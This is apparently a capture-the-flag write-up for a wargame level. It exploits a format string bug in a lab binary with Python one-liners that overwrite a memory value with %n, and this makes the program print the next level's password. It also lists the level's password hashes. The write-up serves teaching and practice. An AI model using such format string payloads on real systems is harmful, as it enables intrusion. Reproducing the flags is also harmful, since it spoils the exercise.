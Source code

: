 # Level 4
```bash
su level4 #b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Steps

Analying the binary, we need to write the correct value at `0x8049810` a given address to trigger the call to `cat /home/user/level5/.pass`.

This time it's a little more complicated because of the call to a nested `p` function inside `n`. We have to take this into account for our offset.

The offset is at: `0x18` (stack length of p) + `0x4` (EBP) + `0x4` (RET address) + `0x10` (position of buffer from ESP = 0x218 - 0x208).

To verify our arguments are correct:
```bash
python -c "print '\x08\x04\x98\x10'[::-1] + '%12\$p'"
```

To write the value `0x1025544`(16930116) at address `*0x8049810`
```bash
$ python -c "print '\x08\x04\x98\x10'[::-1] + '%16930112d%12\$n'" > /tmp/4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
